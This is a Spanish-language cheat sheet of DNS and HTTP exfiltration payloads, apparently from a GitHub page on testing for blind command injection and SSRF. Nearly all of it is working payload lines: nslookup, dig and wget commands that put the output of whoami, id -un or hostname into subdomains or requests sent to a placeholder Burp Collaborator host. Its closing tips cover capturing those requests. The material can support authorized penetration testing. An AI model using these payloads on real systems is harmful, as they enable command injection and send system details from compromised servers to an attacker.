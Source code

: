 ```yaml
---

### 🌐 **DNS Exfiltration Cheat Sheet**

---
```

---
#### 🕵️ **¿Qué es la Exfiltración DNS?**  
El objetivo de estos payloads es realizar consultas DNS que envían información al atacante a través de subdominios controlados.  
Se suelen utilizar herramientas como **Burp Collaborator** o servicios similares para capturar las solicitudes DNS generadas desde el servidor comprometido.

---

## 🧩 **Payloads usando `nslookup`**
Estos payloads intentan realizar una consulta DNS hacia un subdominio controlado.  
```python
||nslookup+`whoami`.BURP-COLLABORATOR-SUBDOMAIN||``
x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||`
nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
nslookup `whoami`.BURP-COLLABORATOR-SUBDOMAIN
nslookup $USER.BURP-COLLABORATOR-SUBDOMAIN
nslookup $(id -un).BURP-COLLABORATOR-SUBDOMAIN
nslookup x.BURP-COLLABORATOR-SUBDOMAIN
nslookup $(hostname).BURP-COLLABORATOR-SUBDOMAIN
```

---

## 🔎 **Payloads usando `dig`**
Estos payloads hacen uso de `dig` para realizar consultas DNS hacia el subdominio controlado.  
```python
dig $(whoami).BURP-COLLABORATOR-SUBDOMAIN
dig `whoami`.BURP-COLLABORATOR-SUBDOMAIN
dig $USER.BURP-COLLABORATOR-SUBDOMAIN
dig @8.8.8.8 x.BURP-COLLABORATOR-SUBDOMAIN
```

---

## 🛰️ **Payloads usando `wget`**
Utiliza `wget` para enviar información a través de una solicitud HTTP.  
```python
wget http://BURP-COLLABORATOR-SUBDOMAIN/$(whoami)
wget --post-data="data=$(id -un)" http://BURP-COLLABORATOR-SUBDOMAIN/
wget --header="User-Agent: $(hostname)" http://BURP-COLLABORATOR-SUBDOMAIN/
```

---

### 💡 **Tips de Uso:**
- Utiliza servicios como **Burp Collaborator**, **Interact.sh** o tu propio servidor DNS para capturar las solicitudes.  
- Estos payloads son útiles para identificar ejecución de comandos (RCE) o vulnerabilidades de Server-Side Request Forgery (SSRF).  
- Modifica los comandos para adaptarlos al entorno que estés probando.  

---
